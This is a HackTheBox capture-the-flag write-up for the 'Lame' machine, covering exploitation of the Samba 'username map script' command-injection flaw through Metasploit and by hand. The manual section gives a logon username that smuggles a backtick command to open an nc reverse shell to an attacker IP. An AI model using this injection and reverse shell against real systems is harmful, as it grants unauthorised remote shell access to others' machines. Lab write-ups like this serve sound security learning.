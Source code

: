 ```yaml
---
layout: post
comments: true
section-type: post
title: HackTheBox Write-up - Lame
category: hackthebox
tags: [ 'samba' ]
---
```


**DIGEST**

An initial Nmap scan result will show us a vulnerable samba service which is running on port 139. It's vulnerable to the "Samba username map script" vulnerability and exploited using both Manual and Metasploit module.

<html>

<head>
    <style>
    b {
  font-weight: bold;
}
        table {
            font-family: arial, sans-serif;
            border-collapse: collapse;
            width: 100%;
        }

        td,
        th {
            border: 1px solid #050505;
            text-align: left;
            padding: 8px;
        }

        tr:nth-child(even) {
            background-color: #050505;
        }
    </style>
</head>

<body>
    <h2 class="text-center">Lame</h2>
    <!--<img src="https://www.hackthebox.eu/storage/avatars/fb2d9f98400e3c802a0d7145e125c4ff.png">         =-->
    <p>
        <table>
            <tbody>
                <tr>
                    <img src="https://www.hackthebox.eu/storage/avatars/fb2d9f98400e3c802a0d7145e125c4ff.png" alt="" border=1 height=150 width=150>
                </tr>
                <tr>
                    <td class="text-right">OS:</td>
                    <td>Linux</td>
                </tr>
                <tr>
                    <td class="text-right">Difficulty:</td>
                    <td> <span class="text-success bold">Easy</span></td>
                </tr>
                <tr>
                    <td class="text-right">Points:</td>
                    <td><span class="text-success">20</span></td>
                </tr>
                <tr>
                    <td class="text-right">Release:</td>
                    <td>14 Mar 2017</td>
                </tr>
                <tr>
                    <td class="text-right">IP:</td>
                    <td>10.10.10.3</td>
                </tr>
            </tbody>
        </table>
    </p>
</body>
</html>


**Tools Used:**

>Nmap, Searchsploit, Metsaploit


**Initial Scan with Nmap:**

![lame](../../../../img/htb/lame/lame-nmap.png)

![lame-nmap](../../../../img/htb/lame/lame-nmap-result.png)

**Vulnerable Samba service on port 139:**

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

**Searchsploit:**

> $ searchsploit Samba 3.0.20

![Searchsploit](../../../../img/htb/lame/lame-sp.png)

**MSF Module - Samba "username map script" Command Execution:**

> $ msf> use exploit/multi/samba/usermap_script

![msf](../../../../img/htb/lame/lame-msf.png)

![shell](../../../../img/htb/lame/lame-msf2.png)

![root](../../../../img/htb/lame/lame-hash.png)

**Manual Exploitation:**

> logon “./=`nohup nc -e /bin/bash 10.10.14.18 4444`"

![Manual](../../../../img/htb/lame/lame-manual1.png)

![Manualroot](../../../../img/htb/lame/lame-manual1.png)

**Rate Matrix:**

![matrix](../../../../img/htb/lame/lame-matrix.png)

<h5><center>Thanks for reading ❤️! </center></h5>
<h5><center>Feel free to leave a comment 💬 below.</center></h5>
